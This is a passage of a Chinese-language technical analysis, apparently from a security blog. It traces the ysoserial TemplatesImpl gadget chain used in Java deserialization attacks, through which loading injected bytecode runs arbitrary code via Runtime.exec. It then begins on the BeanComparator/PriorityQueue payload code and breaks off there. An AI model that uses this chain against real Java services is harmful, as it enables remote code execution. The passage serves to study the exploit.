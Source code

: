 ```
TemplatesImpl.getOutputProperties()
  TemplatesImpl.newTransformer()
    TemplatesImpl.getTransletInstance()
      TemplatesImpl.defineTransletClasses()
        ClassLoader.defineClass()
        Class.newInstance()
          ...
            MaliciousClass.<clinit>()
            //class新建初始化对象后，会执行恶意类中的静态方法，即:我们插入的恶意java代码
              ...
                Runtime.exec()//这里可以是任意java代码，比如:反弹shell等等。  

```

这在ysoserial工具中的注释中是可以看到的。在源码中，我们从`TemplatesImpl.getOutputProperties()`开始跟踪，不难发现上面的执行链。最终会在`getTransletInstance`方法中看到如下触发加载自定义ja字节码部分的代码:

```
private Translet getTransletInstance()
throws TransformerConfigurationException {
    .............
    if (_class == null) defineTransletClasses();//通过ClassLoader加载字节码，存储在_class数组中。

    // The translet needs to keep a reference to all its auxiliary 
    // class to prevent the GC from collecting them
    AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();//新建实例，触发恶意代码。  
   ............

```

在`defineTransletClasses()`方法中，会加载我们之前存储在`_bytecodes`属性中的字节码(可以看做类文件)，进而返回类的`Class`对象，存储在`_class`数组中。下面是调试时候的截图：

![](http://drops.javaweb.org/uploads/images/3a1513e0c3f1a4d3bd28f530e7840b9d257c3fce.jpg)

可以看到在`defineTransletClasses()`后，得到类的`Class`对象。然后会执行`newInstance()`操作，新建一个实例，这样便触发了我们插入的静态恶意java代码。如果接着单步执行，便会弹出计算器。

通过以上分析，可以看到：

*   只要能够自动触发`TemplatesImpl.getOutputProperties()`方法执行，我们就能达到目的了。

### (3) 利用BeanComparator比较器触发执行

我们接着看`payload`的代码：

```
final BeanComparator comparator = new BeanComparator("lowestSetBit");

// create queue with numbers and basic comparator
final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
// stub data for replacement later
queue.add(new BigInteger("1"));
queue.add(new BigInteger("1"));  

```

